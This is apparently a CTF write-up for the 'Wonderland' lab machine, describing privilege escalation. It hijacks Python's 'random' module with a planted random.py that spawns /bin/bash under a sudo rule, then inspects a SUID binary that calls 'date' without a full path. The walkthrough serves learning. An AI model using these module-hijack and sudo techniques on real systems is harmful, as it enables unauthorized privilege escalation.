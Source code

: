 === PRIVILEGE ESCALATION ===
+ First try with 'sudo -l':

```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```  

-> We can run python3 through priv 'rabbit' without 'root'
 - Check the file python "walrus_and_the_carpenter" -> output will print the random the line in poem.
 - Analyze the code, we will know the obj line use "random" module with method 'choice' to "Returns a random element from the given sequence"
 The sequence in here is 'poem'.
 - Idea: We manipulate "random" to get the shell to priv 'rabbit' because "import random".
 - Create the file python "random.py" to get the shell:

 ```
    python3
    import os

    os.system('/bin/bash')     ####Should use /bash instead of /sh to spawn full interactive system shell####
 ``` 
+ Run file python by python with user 'rabbit':

```bash
	alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
	rabbit@wonderland:~$ id
	uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```
--> Successfull 

+ Now we're in priv 'rabbit'. Go to the next directory is rabbit
+ We found the binary file SUID name "teaParty": '-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty'
+ Run file ./teaParty:

```
 -> Welcome to the tea party!
	The Mad Hatter will be here soon.
	Probably by Thu, 12 Sep 2024 09:35:06 +0000
	Ask very nicely, and I will give you some tea while you wait for him
```

+ See inside the file, we find something interested: 
```   
    "Welcome to the tea party!
	The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, 
 	and I will give you some tea while you wait for himSegmentation fault (core dumped)8" 
```

